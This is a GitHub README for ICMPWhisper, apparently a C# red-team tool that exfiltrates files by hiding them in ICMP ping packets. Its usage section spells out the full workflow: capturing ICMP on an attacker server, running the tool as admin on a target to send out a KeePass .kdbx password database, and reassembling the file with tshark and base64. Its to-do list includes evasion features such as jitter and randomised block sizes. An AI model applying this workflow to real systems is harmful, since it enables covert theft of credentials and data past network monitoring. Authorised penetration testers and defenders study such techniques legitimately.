


# ICMPWhisper

A basic C# implementation of the ICMP exfiltration method.


## Description

Recently in an engagement, I had to prove how to exfiltrate info using different protocols.
About the ICMP Method, I found Python scripts using Scapy or even just hping, but there was no C# version available.

There are some Powershell alternatives but I don't know, it's just an excuse to develop something myself.

## Getting Started

### Dependencies

There are no specific dependencies, ICMPWhisper actually works in both Windows and Linux systems.

### Compiling on Windows

* Open the project in Visual Studio Community (currently 2022)
* Publish example:



### Usage workflow

* On your destination server
```
sudo tcpdump -U -i wlp2s0 icmp[0] == 8 -w /tmp/test.pcap
```

* On the target machine (as admin/root)
```
ICMPWhisper.exe my.dest.ip.srv C:\\file_to_exfiltrate.kdbx
```

* Once ICMPWhisper has finished, on your destination server
```
sudo tshark -r /tmp/test.pcap -Y ip.src==127.0.0.1 -T fields -e data | xxd -p -r | base64 -d
```
**Note:** instead of 127.0.0.1 set the target's IP address (sometimes it fails, just remove the ip.src filter)

## Observations

The code only encodes in base64 the file; feel free to create your own preprocessors (compression, encryption, etc.).

There are a few ToDos that I'm not sure I'll do:
- [ ] Allow Hostname as destination server, not only IP Address as first argument
- [ ] Check Admin/Sudo
- [ ] Create a Preprocessor function instead direct b64
- [ ] blockSize via parameter instead of hardcoded 1000?
- [ ] blockSize random to avoid detection?
- [ ] jitter - random sleep for each connection

## Authors
[@JaviCarabantes](https://www.linkedin.com/in/javi-c-57179113a/)


## License

This project is licensed under the GNU GPLv3 License - see the LICENSE.md file for details

